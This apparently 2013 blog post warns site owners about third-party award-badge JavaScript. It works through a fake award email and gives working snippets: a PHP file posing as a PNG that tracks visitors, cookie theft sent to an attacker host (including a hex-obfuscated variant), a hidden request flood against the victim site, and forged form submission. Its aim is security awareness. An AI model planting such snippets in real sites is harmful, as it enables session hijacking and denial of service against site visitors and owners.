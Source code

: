 ```yaml
---
title: "The Very Bad Things That Javascript Can Do: Part 2"
date: 2013-04-16
tag:
- html
- javascript
- security
---
```

In part 1, I discussed the various arguments I run into about wanting to be overly security conscious with our sites in regard to third party javascript. In this entry, we'll run through a few scenarios.

<!--more-->

In our scenarios here, we're going to focus on a fake award site called “AwardSite” that gave our victim a winning notification. They are in the top 5% of 2013's best websites. The servers have PHP and are apache servers.

Perhaps they send an email like this:

```txt
Hello and congratulations!  Your site, http://victimsite.com, has won the prestigious 
Best of 2013 award from AwardSite.com!  
 
Did you know you made it into the top 5%?  We're impressed, and you should be proud!
 
Below, you'll find a snippet of code to insert into the footer of your website.  
It shows off your great accomplishment.
 
Did you know AwardSite.com has a very high Search Engine Optimization ranking?  
We're already linking to your website - but that doesn't complete the circle.  
If you use the banner in the code below, you not only show off your reputation 
this year but that reciprocal link helps Google AND Bing rank your site even higher.
 
Congratulations again!
 
Fake Guy
AwardSite.com
```

And of course, at the very end of the email is some HTML or Javascript that they are prompted to put into their site.

Now, for our example, we're going to use the following banner:

{{< image src="/uploads/2013/award.png" alt="Award" >}}

Now, let's run through some scenarios.

## Hit Counter / Target Determination

In this case, the nefarious hacker wants to determine if this site has a lot of traffic. And, of that traffic, they want to determine what the demographics of the browsers are. This is a very easy information gathering attempt. This is what the code looks like:

```html
<a href="http://awardsite.com">
  <img src="http://awardsite.com/award.png?compress=134">
</a>
```

Let's break down what the code means, and then show the back-end. First, it is just a link to the awardsite website. The image is the banner that you saw above. Finally, that image has a pretty non-conspicuous get parameter called ‘compress' which is set to the ID in the database of this particular victim site. It was important to use a word that SEEMED somewhat legitimate. Of course compress seems ok, so why would I judge that?

On the server, however, the file award.png is actually a PHP file. The apache server has configuration, perhaps in the .htaccess file, like this:

```apache
<Files award.png>
  ForceType application/x-httpd-php
</Files>
```

Then, the **`award.png`** file has the following PHP. (Please note, I've not went to the trouble to make sure this handles EVERY scenario... this is meant as a proof of concept).

Note: `updateSite()` is a function that writes an entry to the database using that siteID. I didn't think it was important enough to show that code too.

```php
$siteID = isset ($_GET['compress']) ? $_GET['compress'] : null;
 
if ($siteID) {
  $header = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : '';
  updateSite($siteID, $header);
}
 
header('Content-type: image/png');
readfile('sourceawardfile.png');
```

This code basically gets the siteID from the GET query. It then grabs the user agent and inserts that into the database with the siteID. This works as a hit-counter and a demographics tracking. The backend will have to have some sort of analytic processing software to determine which browsers are visiting, etc.

No matter if there's a valid siteID or not, finally the png header gets sent and the real award file is sent to the browser.

In this case, our victim has allowed the “bad guy” to keep track of their visitors, times, and demographics. They can now determine if this is a high traffic site or not – and whether its worth targeting specifically with more sophisticated attacks.

## Cookie Stealing / Session Theft

PHP stores the session key as a cookie on the visitors browser named PHPSESSID by default. If the hacker had this cookie, and the session hadn't expired, they could act as the victim. The goal here is to have a logged in user of victim website visit the bad Javascript. Then, the cookie is sent to the hacker who then uses that to steal the session of the victim.

Here is the source code for the HTML/Javascript from the email:

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var i = new Image();
    i.src = 'http://awardsite.com/award.png?c=' + document.cookie;
    document.getElementById('awardlink').appendChild(i);
  </script>
</a>
```

Here, a new image is created. Then, it is sent to the award.png PHP file. In this case, we grab the entire document.cookie. The cookie can then be parsed from the string of the GET parameter. Finally, the image is added to the file and no one is the wiser.

Of course, this kind of can look a bit bad if you see the words ‘document.cookie' – so we can obscure this a bit. Try this:

```javascript
var s = 'http://awardsite.com/award.png';
var i = new Image();
var _0xba4e=["\x63\x6F\x6F\x6B\x69\x65"];
var j=document[_0xba4e[0]];
i.src = concat(s,'?c=', j);
document.getElementById('awardlink').appendChild(i);
```    
        
Of course, it can look bad for our trained eyes... but for those who don't “work on computers” they'll just think its code they don't understand and use it.

**For future examples, I won't show how to obfuscate the code. But that would be one of the steps.**

## Denial of Service for Victim Site

What if we could make the visitor perform a denial of service? That wouldn't be that hard.

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var s = 'http://awardsite.com/award.png';
    var i = new Image();
    document.getElementById('awardlink').appendChild(i);
    setTimeout(function() {
      for (var x = 0; x < 1000; x++) {
        var j = new Image();
        j.style = 'display: none';
        j.src = 'http://victimsite.com/someasset.php';
        document.body.appendChild(j);
      }
    }, 3000);
  </script>
</a>
```

In this case, the image is added successfully. However, the `setTimeout()` method executes a different function 3 seconds later. The delay is so that the user won't notice the delay in their browser (hopefully the entire site has loaded by then) – and it puts it in the background. Then, a new ‘image' is created 1000 times and appended to the document – with a hidden display (so the visitor can't tell). But, basically, one visitor to this site, especially if they spent some time just reading the content, loaded 1000 more requests than were necessary.

## Processing Actions as the Victim

We all know that we need to not have forms that submit with the method of GET if the action is something that adds/edits/updates information. This restricts me from creating a sample that uses the `Image()` object to load a fake form submission with GET parameters. However, it doesn't stop us from submitting a form that MAY be on the current page.

```html
<a href="http://awardsite.com" id="awardlink">
  <script>
    var s = 'award.png';
    var i = new Image();
    i.src = s;
    document.getElementById('awardlink').appendChild(i);
    var f = document.getElementById('formID');
    f[0].value = 'Some Nefarious Input';
    f.submit();
  </script>
</a>
```

This code goes and gets the form with an ID of `formID` and populates the first element with some bad information. Then it clicks submit.

This is bad, but there are some potential problems. What if... the form doesn't have an ID? Remember, we could also do some research, determine this is the second form on the page, and substitute the following:

```javascript
var f = document.forms[1];
```

OK, but let's just say its distracting to the visitor when the form is submitting. It takes them away from what they're doing – of course they're going to report it. Well, we can force the form to be ajax, and then submit.

```javascript
f.onsubmit = function() {
  //code to create xmlhttprequest and send form as ajax
};
f.submit();
```

## So what does all this mean?

Now that you've seen the examples of what can happen, I hope it turns on a light that we need to be more vigilant about what we allow clients to put into your hosted applications.
